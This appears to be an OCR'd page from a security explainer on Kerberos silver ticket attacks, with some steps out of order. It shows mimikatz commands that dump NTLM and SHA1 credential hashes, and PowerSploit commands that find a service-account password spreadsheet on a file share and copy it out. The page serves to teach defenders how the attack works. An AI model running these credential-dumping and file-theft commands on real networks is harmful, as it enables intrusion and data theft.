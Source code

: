 
Uses forged tickets to further objectives


Step 3: In the previous step, the adversary forged a silver ticket and injected it into a new cmd.exe session. The silver ticket the attacker minted specified the cifs service, which will allow the attacker to use the forged TGS to access file shares. Because the TGS is forged, it can be created for a user that does not actually exist in the domain making it harder for responders to track the adversary.

In this example, the adversary uses the forged ticket and the Find-InterestingFile cmdlet, provided by the PowerShell module PowerSploit, to scan the file share for and exfiltrate sensitive data.

Console
PS> Find-InterestingFile -Path \\FileServer1.domain.com\S$\shares\
 
 
FullName       : \\FileServer1.domain.com\S$\shares\IT\Service Account Passwords.xlsx
Owner          : DOMAIN\JOED
LastAccessTime : 27/07/2020 12:47:44
LastWriteTime  : 27/07/2020 12:47:44
CreationTime   : 10/04/2011 10:04:50
Length         : 76859
 
PS> Copy-Item -Path "\\FileServer1.domain.com\S$\shares\IT\Service Account Passwords.xlsx" -Destination "C:\Windows\Temp\a20ds3"
PS>


Step 1: To gain the ability to mint TGS tickets, an adversary must first compromise the password hash of a service account. In this example, an adversary has compromised a file server but wishes to gain persistent and stealthy access. They begin the process of creating silver tickets by compromising the necessary password hash.

Console
PS> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
 
mimikatz(commandline) # privilege::debug
Privilege '20' OK
 
mimikatz(commandline) # sekurlsa::logonpasswords
# ... output truncated ... #
Authentication Id : 0 ; 29151002 (00000000:01bccf1a)
Session           : Interactive from 5
User Name         : DWM-5
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 21/07/2020 10:26:16
SID               : S-1-5-90-0-5
        msv :
         [00000003] Primary
         * Username : FileServer1$
         * Domain   : DOMAIN
         * NTLM     : 281fd98680ed31a9212256ada413db50
         * SHA1     : c8fe518dfa728eb92eb2566328f0123e3bcb2717
# ... output truncated ... #
 